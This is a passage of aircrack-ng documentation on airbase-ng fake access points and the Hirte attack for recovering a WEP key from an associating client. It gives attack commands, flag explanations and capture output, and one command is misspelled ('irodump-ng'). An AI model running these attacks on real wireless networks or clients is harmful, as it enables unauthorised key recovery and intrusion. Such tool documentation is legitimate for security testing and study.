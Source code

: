 Using "airbase-ng \<iface>" is enough to setup an AP without any encryption. It will accept connections from any MAC for every ESSID, as long as the authentication and association is directed to the BSSID.

You really cannot do much in this scenario.  However, it will present a list of clients which are connecting plus the encryption method and the SSIDs.

#### Hirte Attack in Access Point mode

This attack obtains the wep key from a client.  It depends on receiving at least one ARP request or IP packet from the client after it has associated with the fake AP.

Enter:

``` bash
airbase-ng -c 9 -e teddy -N -W 1 rausb0
```

Where:

- -c 9 specifies the channel
- -e teddy filters a single SSID
- -N specifies the Hirte attack
- -W 1 forces the beacons to specify WEP
- rausb0 specifies the wireless interface to use

The system responds:

``` bash
18:57:54  Created tap interface at0
18:57:55  Client 00:0F:B5:AB:CB:9D associated (WEP) to ESSID: "teddy"
```

On another console window run:

``` bash
irodump-ng -c 9 -d 00:06:62:F8:1E:2C -w cfrag wlan0
```

Where:

- -c 9 specifies the channel
- -d 00:06:62:F8:1E:2C filters the data captured to fake AP MAC (this is optional)
- -w specifies the file name prefix of the captured data
- wlan0 specifies the wireless interface to capture data on

Here is what the window looks like when airbase-ng has received a packet from the client and has successfully started the attack:

``` airodump-ng
CH  9 ][ Elapsed: 8 mins ][ 2008-03-20 19:06 ]                                       
                                                                                                        
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB  ENC  CIPHER AUTH ESSID
                                                                                                       
 00:06:62:F8:1E:2C  100  29      970    14398   33   9  54  WEP  WEP        teddy                           
                                                                                                        
 BSSID              STATION            PWR   Rate  Lost  Packets Probes
 
 00:06:62:F8:1E:2C  00:0F:B5:AB:CB:9D   89   2-48     0   134362
```
